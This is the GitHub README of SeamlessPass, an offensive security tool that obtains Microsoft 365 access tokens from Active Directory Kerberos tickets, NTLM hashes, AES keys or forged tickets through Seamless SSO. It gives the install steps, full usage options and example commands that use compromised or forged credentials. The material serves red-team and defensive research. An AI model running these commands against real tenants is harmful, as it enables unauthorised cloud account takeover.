 # SeamlessPass
Leveraging Kerberos tickets to get Microsoft 365 access tokens using Seamless SSO
---

SeamlessPass is a tool for obtaining Microsoft 365 access tokens using on-premises Active Directory Kerberos tickets for organization with enabled Seamless SSO (Desktop SSO) feature. 

## Installation

SeamlessPass can be installed using PyPI or from the source. After installation, the tool will be available using `seamlesspass` command. 

### Using PyPI

```bash
pip install seamlesspass
```

### From Source

1. Download source code (as archive or using `git clone https://github.com/Malcrove/SeamlessPass.git`)
2. Navigate to the code directory
3. Install using `pip install .`, or install requirements `pip install -r requirements.txt` then run directly using `python run.py`

## Usage

```bash

   _____                      _               _____
  / ____|                    | |             |  __ \      v(0.1)
 | (___   ___  __ _ _ __ ___ | | ___  ___ ___| |__) |_ _ ___ ___
  \___ \ / _ \/ _` | '_ ` _ \| |/ _ \/ __/ __|  ___/ _` / __/ __|
  ____) |  __/ (_| | | | | | | |  __/\__ \__ \ |  | (_| \__ \__ \
 |_____/ \___|\__,_|_| |_| |_|_|\___||___/___/_|   \__,_|___/___/

 By Abood Nour (@0xSyndr0me) - Malcrove (https://malcrove.com/)

Leveraging Kerberos tickets to get cloud access tokens using Seamless SSO

Usage: seamlesspass [-t tenant domain] [-r resource URI] [-c client_id] [-ignore-sso-check] [-d domain] [-dc DC host/IP] [-u username] [-p password] [-n [LMHASH:]NTHASH] [-aes AESKey] [-tgt base64 TGT / TGT file] [-tgs base64 TGS / TGS file] [-spn SPN] [-domain-sid SID] [-user-rid number] [-user-sid SID] [-adssoacc-ntlm [LMHASH:]NTHASH] [-adssoacc-aes AESKey] [-proxy [scheme]://[user:password]@[host]:[port]] [-ua USERAGENT] [-debug] [-no-color] [-h]

Microsoft 365 options:
  -t/-tenant tenant domain
                        Domain of the tenant (e.g. example.com, corp.onmicrosoft.com)
  -r/-resource resource URI
                        Target cloud service to be accessed (Default: https://graph.windows.net)
  -c/-client-id client_id
                        Microsoft 365 client ID (Default: 1b730954-1685-4b74-9bfd-dac224a7b894)
  -ignore-sso-check     Try to login using Seamless SSO even if it is not enabled

Authentication Options:
  -d/-domain domain
                        Local domain (e.g., corp.local)
  -dc/-dc-ip DC host/IP
                        Hostname or IP Address of the domain controller used for authentication (example: dc.corp.local, 10.0.1.2)
  -u/-username username
  -p/-password password
  -n/-ntlm [LMHASH:]NTHASH
                        User's NTLM hashed password, format is [LMHASH:]NTHASH
  -aes AESKey  User's AES 128/256 key
  -tgt base64 TGT / TGT file
                        base64-encoded Ticket-Granting Ticket (TGT) or path to TGT file (kirbi/ccache)
  -tgs base64 TGS / TGS file
                        base64-encoded Service Ticket (TGS) or path to TGS file (kirbi/ccache)
  -spn SPN     Target service principal name. (Default: HTTP/autologon.microsoftazuread-sso.com)

Ticket Forgery Options:
  -domain-sid SID
                        Domain Security Identifier
  -user-rid number
                        User Relative ID (Last part of user SID)
  -user-sid SID
                        User Security Identifier
  -adssoacc-ntlm [LMHASH:]NTHASH
                        NTLM hash of AZUREADSSOACC account (Used to forge TGS)
  -adssoacc-aes AESKey
                        AES 128/256 Key of AZUREADSSOACC account (Used to forge TGS)

Connection Options:
  -proxy [scheme]://[user:password]@[host]:[port]
                        NOTE: This is used only for HTTP requests not DC communication. (example: http://burp:8080)
  -ua/-user-agent USERAGENT
                        HTTP User agent used in interaction with Microsoft 365 APIs

Misc options:
  -debug                Turn debug output on
  -no-color             Turn off console colors
  -h/--help             Show this help message and exit.

Examples:
  seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_encoded_TGT>
  seamlesspass -tenant corp.com -tgs user_tgs.ccache
  seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -username user -ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF
  seamlesspass -tenant corp.com -domain corp.local -dc 10.0.1.2 -username user -password password
  seamlesspass -tenant corp.com -adssoacc-ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF -user-sid S-1-5-21-1234567890-1234567890-1234567890-1234
  seamlesspass -tenant corp.com -adssoacc-aes DEADBEEFDEADBEEFDEADBEEFDEADBEEF -domain-sid S-1-5-21-1234567890-1234567890-1234567890 -user-rid 1234
```

## Use Cases

The tool can be used to obtain access tokens for Microsoft 365 services for tenants with enabled Seamless SSO feature. The access tokens can be then fed to other tools such as `ROADTools` and `AADInternals` for further enumeration or offensive capabilities. The tool can be very handy in various situations where the **cleartext password of the user is unknown** but other forms of access are obtainable such as

- Using compromised user’s Ticket-Granting-Ticket (TGT) or forged Golden Ticket 
(*Interacts with DC)*
    
    ```bash
    seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_encoded_TGT>
    ```
    
- Using compromised user’s NTLM hash or AES key
(*Interacts with DC)*
    
    ```bash
    seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -username user -ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF
    ```
    
- Acquisition of AZUREADSSOACC$ account NTLM hash or AES key 
*(No interaction with DC is needed)*
    
    ```bash
    seamlesspass -tenant corp.com -adssoacc-ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF -user-sid S-1-5-21-1234567890-1234567890-1234567890-1234
    ```
    

## TODO

[ ]  Support interactive Multiple-Factor Authentication (MFA)
[ ]  ...?

## Contact

Please submit any bugs, issues, questions, or feature requests under "Issues" or send them to me on Twitter @0xSyndr0me

## Credits

Creation of this tool would have been much harder if it wasn’t for the awesome work and research by folks like

- [SecureAuthCorp](https://github.com/SecureAuthCorp) and all the [contributors](https://github.com/SecureAuthCorp/impacket/graphs/contributors) for [Impacket](https://github.com/SecureAuthCorp/impacket)
- [Dr. Nestori Syynimaa](https://twitter.com/DrAzureAD) for [AADInternals](https://github.com/Gerenios/AADInternals)
- [Oliver Lyak](https://twitter.com/ly4k_) for [Certipy](https://github.com/ly4k/Certipy)
- [Dirk-jan](https://twitter.com/_dirkjan) for [ROADTools](https://github.com/dirkjanm/ROADtools)